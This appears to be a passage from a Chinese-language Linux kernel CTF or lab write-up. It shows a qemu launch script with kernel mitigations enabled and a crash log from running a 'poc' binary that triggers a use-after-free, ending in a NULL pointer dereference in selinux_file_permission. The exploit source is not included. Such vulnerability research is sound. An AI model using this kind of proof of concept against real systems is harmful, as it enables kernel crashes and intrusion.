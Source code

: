 修改`challenge`文件夹下的`run.sh`根镜像的名称为`poc_rootfs.cpio.gz`

```shell
#!/bin/sh
qemu-system-x86_64 \
    -kernel bzImage \
    -cpu qemu64,+smep,+smap,+rdrand \
    -m 4G \
    -smp 4 \
    -initrd poc_rootfs.cpio.gz \
    -hda flag.txt \
    -append "console=ttyS0 quiet loglevel=3 oops=panic panic_on_warn=1 panic=-1 pti=on page_alloc.shuffle=1 kaslr" \
    -monitor /dev/null \
    -nographic \
    -no-reboot \
    # -gdb tcp::12345
```

根路径下运行`poc`程序，触发`UAF`漏洞(空指针引用)

```shell
Good luck... 🤓
sh: can't access tty; job control turned off
~ $ poc
[   14.919463] BUG: kernel NULL pointer dereference, address: 00000000
[   14.919708] #PF: supervisor read access in kernel mode
[   14.919708] #PF: error_code(0x0000) - not-present page
[   14.919708] PGD 800000012bad0067 P4D 800000012bad0067 PUD 12bad506 
[   14.919708] Oops: 0000 [#1] PREEMPT SMP PTI
[   14.919708] CPU: 0 PID: 125 Comm: poc Tainted: G           O      3
[   14.919708] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996),4
[   14.919708] RIP: 0010:selinux_file_permission+0x9f/0x1a0
[   14.919708] Code: c0 74 1e 4d 85 e4 0f 84 f9 00 00 00 4d 01 ec 41 0
[   14.919708] RSP: 0018:ffffb3208039fde0 EFLAGS: 00000246
[   14.919708] RAX: 0000000000000000 RBX: ffff9555a019a200 RCX: 000000
[   14.919708] RDX: 0000000000000000 RSI: 0000000000000000 RDI: ffff90
[   14.919708] RBP: 0000000000000004 R08: ffff9555a0204740 R09: 000000
[   14.919708] R10: 0000000000000000 R11: ffffffffb37ed740 R12: ffff98
[   14.919708] R13: 0000000000000010 R14: ffff955580445110 R15: 000001
[   14.919708] FS:  0000000001278880(0000) GS:ffff9555bbc00000(0000) 0
[   14.919708] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   14.919708] CR2: 0000000000000000 CR3: 000000012b868000 CR4: 000000
[   14.919708] Call Trace:
[   14.919708]  <TASK>
[   14.919708]  ? __die_body+0x5f/0xb0
[   14.919708]  ? page_fault_oops+0x29d/0x3c0
[   14.919708]  ? copy_user_enhanced_fast_string+0x27/0x50
[   14.919708]  ? do_user_addr_fault+0x54e/0x5f0
[   14.919708]  ? expand_downwards+0x326/0x3e0
[   14.919708]  ? exc_page_fault+0x5d/0xa0
[   14.919708]  ? asm_exc_page_fault+0x22/0x30
[   14.919708]  ? __cfi_selinux_file_permission+0x10/0x10
[   14.919708]  ? selinux_file_permission+0x9f/0x1a0
[   14.919708]  security_file_permission+0x36/0x60
[   14.919708]  vfs_read+0xa0/0x2c0
[   14.919708]  ? call_rcu+0xe0/0x250
[   14.919708]  ksys_read+0x69/0xd0
[   14.919708]  do_syscall_64+0x52/0xa0
[   14.919708]  ? exit_to_user_mode_prepare+0x2a/0x80
[   14.919708]  entry_SYSCALL_64_after_hwframe+0x64/0xce
```
